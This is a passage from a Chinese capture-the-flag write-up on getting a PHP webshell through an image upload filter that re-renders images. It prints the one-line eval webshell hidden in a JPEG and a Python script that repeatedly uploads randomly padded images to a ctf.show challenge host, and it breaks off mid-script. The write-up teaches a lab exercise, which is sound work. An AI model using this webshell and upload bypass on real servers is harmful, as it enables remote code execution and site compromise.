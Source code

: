 ```php
        }
    }
?>
```

```bash
# 生成二次渲染的jpg图片
# 此处文件名.php即是上面的生成脚本，文件名.jpg是从服务器下载的一次渲染图
php 文件名.php 文件名.jpg
```

![gen](https://the0n3.top/medias/show-upload/24.png)


```php
# 渲染后php木马内容
<?=eval($_POST[1]);?>
```

如果是自己准备的图片，上传后可能会失败

CTFshow群主推荐的二次渲染专用图

![jpg](https://the0n3.top/medias/show-upload/0.jpg)

准备了一个脚本，在图片尾部添加随机垃圾字符串，废图利用，变成新图，爆破出可利用的二次渲染图


```python
import requests
import random
import string

# 配置
image_path = 'payload_cola1.jpg'  # 图片路径
url = 'http://0092bb15-7d1d-4a6c-8f9d-c9ac4a6076fa.challenge.ctf.show/'
upload_url = url + 'upload.php'  # 上传接口 URL
get_url = url + 'download.php?image='  # 访问接口
output_path = 'success_image1.jpg'  # 保存路径

def generate_random_string(length):
    characters = string.ascii_letters + string.digits + string.punctuation
    return ''.join(random.choice(characters) for _ in range(length))

# 读取图片文件
with open(image_path, 'rb') as image_file:
    image_data = image_file.read()

while True:
    # 生成30到50位长度的随机字符串
    random_length = random.randint(30, 50)
    text_to_append = generate_random_string(random_length).encode('utf-8')  # 要追加的文本

    # 追加文本到图片数据
    modified_image_data = image_data + text_to_append
    # 在图片数据开头插入文本，报错
    # modified_image_data = text_to_append + image_data

    # 准备上传
    files = {'file': ('modified_image.jpg', modified_image_data, 'image/jpeg')}
    response = requests.post(upload_url, files=files)
    # 获取上传后的状态、文件名
    response_json = response.json()
    msg = response_json.get("msg")

    # 检查响应
    if response.status_code == 200:
```
